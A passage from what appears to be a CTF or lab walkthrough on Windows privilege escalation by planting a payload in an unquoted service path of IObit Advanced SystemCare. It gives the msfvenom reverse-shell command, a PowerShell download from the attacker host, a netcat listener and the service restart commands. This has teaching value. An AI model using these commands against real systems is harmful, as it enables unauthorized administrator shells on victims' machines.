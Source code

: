 The path we will target is <code>C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe</code> and create: <code>C:\Program Files (x86)\IObit\Advanced.exe</code>
</li>

<li> We'll generate our payload with <code>msfvenom</code> on our attacking machine:
<pre>
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.49.162 LPORT=4444 -e x86/shikata_ga_nai -f exe -o Advanced.exe
</pre></li>

<li>Next, move Advanced.exe to <code>~/Desktop/nc</code> and we'll use the same strategy to move it to the target machine
<pre>
mv Advanced.exe ~/Desktop/nc
</pre>
</li>
<li>On the target machine, run 
<pre>
powershell -c Invoke-WebRequest -OutFile Advanced.exe -URi http://10.6.49.162/Advanced.exe
</pre>
</li>
<li>On our attacking machine, let's create a new terminal tab and set up another netcat listener

<pre>
nc -lvnp 4444
</pre></li>

<li>On the target machine, we'll move <code>Advanced.exe</code> over to <code>C:\Program Files (x86)\IObit</code>
<pre>
copy Advanced.exe "C:\Program Files (x86)\IObit\"
</pre>
</li>

<li>Finally we'll stop and then restart the service <code>AdvancedSystemCareService9</code>, which will hopefully run our payload as administrator:
<pre>
C:\Users\Public>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\Public>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
</pre>
